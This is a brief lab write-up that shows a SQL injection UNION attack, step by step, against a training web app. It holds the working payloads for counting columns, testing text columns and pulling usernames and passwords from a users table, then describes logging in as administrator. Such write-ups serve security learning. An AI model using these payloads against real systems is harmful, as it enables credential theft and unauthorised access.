

# Lab: SQL injection UNION attack, retrieving data from other tables

## Explanation
The goal of this lab was to use UNION injection to extract data from other tables. I retrieved the administrator's password from the users table.

## Solution
First, I found there are 2 columns using `'+UNION+SELECT+NULL,NULL--`.
Then I tested which columns accept text with `'+UNION+SELECT+'a',NULL--` and `'+UNION+SELECT+NULL,'a'--`, and found both columns accept strings.
Finally, I extracted the admin password using `'+UNION+SELECT+username,password+FROM+users--`.

```sql
SELECT column1, column2 FROM products WHERE category='Gifts' UNION SELECT username,password FROM users--'
```
## Result
So, we can reach administrator's password and login as administrator!

